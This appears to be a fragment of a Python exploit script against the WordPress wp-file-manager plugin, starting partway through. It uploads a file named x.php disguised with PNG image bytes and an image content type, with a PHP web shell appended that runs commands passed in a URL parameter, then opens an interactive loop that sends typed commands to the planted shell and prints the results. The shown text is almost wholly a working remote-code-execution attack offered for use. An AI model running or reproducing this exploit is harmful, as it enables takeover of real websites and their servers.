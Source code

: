 ```python
burp0_data = "--------------------------66e3ca93281c7050\r\nContent-Disposition: form-data; name=\"cmd\"\r\n\r\nupload\r\n--------------------------66e3ca93281c7050\r\nContent-Disposition: form-data; name=\"target\"\r\n\r\nl1_Lw\r\n--------------------------66e3ca93281c7050\r\nContent-Disposition: form-data; name=\"upload[]\"; filename=\"x.php\"\r\nContent-Type: image/png\r\n\r\n\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x01^\x00\x00\x01^\x04\x03\x00\x00\x00?\x05j)\x00\x00\x00\x1ePLTE\xff\xff\xff\xef\xef\xef\xe5\xe5\xe5\xce\xce\xce\xa1\xa1\xa1iiiVVVGGG333\x00\x00\x00g\x00\xcc\xe2\x00\x00\r\xc0IDATx\xda\xed]K[\xdb\xc8\x12m\xc9\xce^\xc6\x90\xbb58\t\xdc\x9dm\x9c\t\xd9\xd9X\x1e\xc2\x8e\x87I\xc22\t!\x93\xe5@xmc\x02\xf1\xda\x0f\xa9\xff\xed]`\xeb\xddVU\xc9C\xb5\xe6\xa2-\xd4\xa7\xf2Q\xe9\xa8\x1fuN\x8b\xdf\xb9\xba\xee\x84\xbc\"^\xd7\x83\xc7\x8f\xbc\x9a\x08\xa7\xb1F\xbb\xaa\x97\xf4\xc8:5\xf2^L,A\xbb\x8cSr\xe4\x055\xd2\xbc\x17\x0eC\xbe\xe4H\xf3NL*\x8f\x8f\xd2i\xbe\xf05Y\xf05\xffM\xf5[*\x95J\xb9\xc1\xb7\xdc\xb4\x8f\xde\x9f\x1e\xf5\xec\x86\x95\x83\xfa\xadv\xff\x92\xd3\xcb\xfd\xba]\xd1\x86\x1f\x92Q2\xeck\x19\xb8\xdc\x93FB\xa4>\xf5[\xde\x91\x91k\xd2\xd1\x18\xdf\xeaG\x19\xbb\xdcCK\xd7\xfa-\x97\x12\x90\xb0.\xfcP>\x9629a-\xf9\xd7\xdc\x95\x8a\xcb\xdd\xd6\x11\xdf\x1d\xa9\xbc&5\xfd\xea\xf7\xe5@\x9d\xaf\xbc\xad\xe8\xc6\x0f\x85c9\xef:\xd0\x8c\x8d\x9d\xb9\xe9J\xa7\xa6\x17\xbe\xcb\x83\xf9\xf9\xca[\xad\xea\xd7\xd8MIW\xba-\x9d\xf8\xe1\x85L\xbdn-}\xf87\x1d^)eK\x1f|\x97\x01\xe9\xfa\x15\xcc_\xbf\x10x\xa5[\xd3\x85\x1f\n\x03H\xbe\xf2\\\x17\xfe}\x03JW\x8e+z\xe0k\x1c\xc3\xf2\x95m=\xea\xb7\x08LW\x8e\xf4\xe0\x87-h\xbe\xd3{1\xf3\xaf\t-\x07)\xf7t\xc0\x17\\\x0eR\xf6u\xa8\xdfux\xbe\x0f\x8b\xb7\xbc\xfc\x00\xfa\x16\x87\xbe\xc9\xbc\xfc\x0b\xfcX<\\\x9f\xf8\xf1E\x94\xef\x94\xd1x\xeb\xf7\r&\xdf\xb1\xc5\xce\x0f\x98\xf2\x95\xb2\xc6\xcd\xbf\xc6wT\xbe\xfb\xdc\xf8\x16P\xe9\xca\x9f\xdc\xf5\xbb\x8c\xcbw\xc4\xcd\x0f\x1b\xb8|\xc7\x163\xff\xbe\xc5\xe5\xeb\xd6x\xf15p\xf4 e\x8b\xb7~\x91\xf4 e\x9b\x97\x1f\xcc\x012\xdf\xbfy\xf9\x17IgR\xf6y\xf1]\xc6\xe6;\xe4\xad\xdfg\xd8|G\x16+?\xac`\xf3\x1d\xf3\xf2\xef::_^|\xb7\xb0\xf9:\x16k\xfd\xbe\xc5\xe6\xebV\xb2\xf0Yf|\xf1\xf9\xd6X\xf1\xc5~\x8e\xa5\xcc\x19\xbe2o\xf8\xd6\x84q\xc9\x87/%_\xf3k\x8e\xf8![=<>\xbe\xcc\xfc@\xe13\xce\xef\x1b\xe5{\xc1\x89\xef\x066\xdf\t/\xffR\xc6;\x9c\xf8\xaeP\xc6\xbf\x8c\xf8\xe2\xc7\xeb\xbc\xf3\x8b\"z>\xc4\x8b\xef#\xcf73\xe3\x8b\x9e\xcf\x12\xac\xf8\x1a\xc7\xc8|\x99\xd7w\x04a=\x8a\x13_\xf4z_\x85\x19\xdfW\xf8\xf5T\xce\xf1/e\xbd\x9as\xfc\x8b%\xb43\xc1\x8c/\x92 \xf6\xd8\xf7\xe7\xf1\xfbY\xbc\xfbo\xaf\xb0\xaf\x1b\xf3\xfe&j\x041\x14\xec\xfb\xc7\xe6\r\"\xdf\x03\xc1\xdf\x1f\xb5\x8b,_\xee\xfe(D\x01?tt1\xf7\x97<f?\xccB\xfa\xa3\x8e1\x83\x1d\r\xfaS\xd7\x11sc\x1d\xf0-\xe2\xca\x81\xbd\xbf\x0f\xbc'\xdb\x8eF\xf2\xe0+\xfe\xc0\xf5{\xb2\xf7\xa7\x16`\x9f\x8c\xcfB\x13|\xc5;\xd0\xcePM\xe8Q\xbfB\x14\x07\xf0\xb7M\x0b}\x00\xe0\x8ds\xeb\xde/\xe5\xd7\xb7,\xa7\x03|+4\xc2\xd7H\xad`\xb7\xb6\x88|\x17\xa6\x1fJ\xad\xe0sK\x11\xc9\x82o*\x07\x8f\x03z'-\xf4\xb1)z\xb2mu$\x0f\xbe\xf3_\xb9\x1f\xd6\x9cH\x16|\x85x\x9d\xfe%\xd6\x86\x1f\x84\x10\xc2Tr\xc4\xa4\x1d\xfe\xa5\x9a\xe8\xbb\x0b\xef@\xf2X}\xfc\t\xca\x1f\x93\xd3]\x9c^z\xc1\xfa\xf9$\x84\x9d\x8e\x05\x88d\xc1W\x88\xa5n\x94%~m\xc7#5\xf2\xd70\x9a\xa1\x9apz\x15h$\x0b\xbeB\x88B\xf3\xc3\x0c\xe3\xbb^\x03\x13\xc9\x81\xaf\x10B\x946\xedn\xf7\xa8kw\xd6p\xbf\x94\x07\xdfi\xceB\xfd\xd7\xbc\xf9\x1b\xe5\xcd'o\xfeFF\xde\xf0\xfd\xf2\xe7rVK\xb4k\xe9\xb4B\x8d\xbc\xa4\xde\xb3p/\xdc\xafG\xb4\xeb\xfd\xe0\xe8\xf1#'B\xdeS\xbd\xf4\xe45\xd5\xbf\xcf\xa5\xde\xf3\xda\x11\x0e\xd9K\xef\x94\x1c\xf9m\x8d\x1ay\x97\xb3\xf7\xed>\x83\x1f\xde\xd3\xf7\xed\xe9\xfb\xf6\xf4}\x8b\xfcimssss\xcd\xcaE\xfd\x1ae\xfb\xfd\xf5@J\xf7\xfe\xc8n\xe8?\xfe-\x07\xad\xf4\xeez\xab\xda\xe0\x9b<\xbfhF\x16/~u,\x8d\xf15^\x0f\xe26o\x15m\xeb\xd7\xf83ie(\xb6\x18\xa0\x0b?$\xa7+e\xcf\xd2\x92\r\xe5Rl\xc4\xaaP\x13|\xd5\xd6t\xee\xbe\x86\xf5[\x9c\xb3\x9d\xeb\xd4\xb5\xe3\x07s\xeef\xe3\xa8\xa2\x1b\xff\xbe\x9e\xbf\xb3t\xa8\x19\xbei\x9b\xfbA/H\x1d\xea\xf7\x1d|#W\x07~H\xdf\xda\x0f:\xff\xf1\xf3/\xa0u\xe2V#|!\x9d\x13>\xc0\xfc\xf5\xfbN\xa2:=\xb8\xf9\x01\xd6\xf9\xe3\xf5\"\xb0\xf3/\xb0\xf7\xf2\xb3&\xf8B\x9b\xc9\xc7\x96\x1e\xf5\x0b\xee\x0cl\xe9<?php system($_GET[\"cmd\"]); ?>\r\n--------------------------66e3ca93281c7050--\r\n"
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

print("URL Shell: %s/wp-content/plugins/wp-file-manager/lib/files/x.php?cmd=<CMD>")
while True:

    cmd = raw_input("$ ")
    burp0_url = "%s/wp-content/plugins/wp-file-manager/lib/files/x.php?cmd=%s" % (sys.argv[1], cmd)
    burp0_headers = {"User-Agent": "curl/7.68.0", "Accept": "*/*", "Expect": "100-continue", "Connection": "close"}
    r = requests.get(burp0_url, headers=burp0_headers)
    print(r.text)
```
